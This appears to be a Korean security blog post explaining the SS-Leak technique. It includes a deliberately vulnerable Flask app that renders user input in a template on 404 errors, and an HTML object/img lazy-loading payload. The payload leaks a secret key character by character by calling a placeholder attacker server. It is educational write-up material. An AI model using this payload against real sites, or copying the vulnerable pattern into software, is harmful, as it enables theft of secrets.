 ```yaml
---
title: SS-Leak with Code Injection
date: 2023-11-14
author: glasses96
categories: [WEB]
tags: [CSP, SS-Leak, Code Injection]
pin: true
math: true
mermaid: true
---
```


> **SS-Leak 공격에 대해 알아봅시다.** 
{: .prompt-info }

---

## Information
Same-Site 설정으로 인해 XS-Leak 공격을 시도하기 어렵습니다.  
XS-Search을 공격하려면 `inline-script`를 이용해야하는 경우가 많지만 CSP 설정에 의해서 불가능 한 경우가 있습니다.  

### Example Code

예시 코드를 보면 CSP가 설정되어 있어 `inline-script`가 불가능합니다.
```py
from flask import (Flask,request,render_template,render_template_string,abort)
from not_found import not_found_template

app = Flask(__name__)
sercet_key = "SE3RECT_KEY"

@app.errorhandler(404)
def page_not_found(e):
    return render_template_string(not_found_template(e)), 404

@app.after_request
def csp(response):
    response.headers[
        "Content-Security-Policy"
    ] = "default-src 'self'; img-src *; style-src 'self'"
    return response

@app.route("/", methods=["GET"])
def search():
    if request.method == "GET":
        input_key = request.args.get("key")

        if sercet_key.startswith(input_key):
            return render_template("index.html",key=input_key)

        return abort(404, input_key)
    
if __name__ == "__main__":
    app.run(host="0.0.0.0",port=8000)
```

![xss_fail](/assets/post/43/1.png)

## Lazy Loading
object와 img 태그를 이용하여 적용된 CSP를 우회할 수 있습니다.  
img 태그의 loading 속성을 lazy로 설정한 후 object 태그 안에 삽입합니다.  
<span style="color:#9999FF">object 태그가 리소스를 정상적으로 불러오면, img 태그가 이미지를 불러오지 않으며, 반대의 경우에는 이미지를 불러옵니다.</span>

### Exploit
```html
<object data="/?key=[인풋]">
    <img src="[공격자 서버]" loading="lazy">
</object>
```
위의 예시 코드에서 `secret_key`를 하나씩 추출하기 위해 문자 하나씩 넣게되면 올바른 key를 넣으면(200) 공격자 서버에 요청을 보내지 않고, 틀린 문자의 경우(404) 공격자 서버에 요청을 하게됩니다.  

`이를 이용하여 문자를 하나씩 넣어보고 요청이 오지 않은 문자를 파악하여 secret_key`를 유추할 수 있습니다.

참인경우
![xss_fail](/assets/post/43/4.png)
거짓경우
![xss_fail](/assets/post/43/3.png)

서버 응답
![xss_fail](/assets/post/43/5.png)

## Object & img element
<span style="color:#9999FF">object element는 404 상태 코드인 경우 렌더링이 렌더링이 되지 않으며, iframe의 경우는 상태 코드와 상관 없이 렌더링이 됩니다.</span>
![xss_fail](/assets/post/43/2.png)

## Reference
- https://infosec.zeyu2001.com/2023/from-xs-leaks-to-ss-leaks
- https://book.hacktricks.xyz/pentesting-web/dangling-markup-html-scriptless-injection/ss-leaks
- https://dreamhack.io/

## 후기
lazy loading 뿐만아니라 다양한 공격 기법이 참조에 있습니다.  
새로운 공격 기법에 대해서 알아가는 시간이 된거 같아서 좋습니다.  
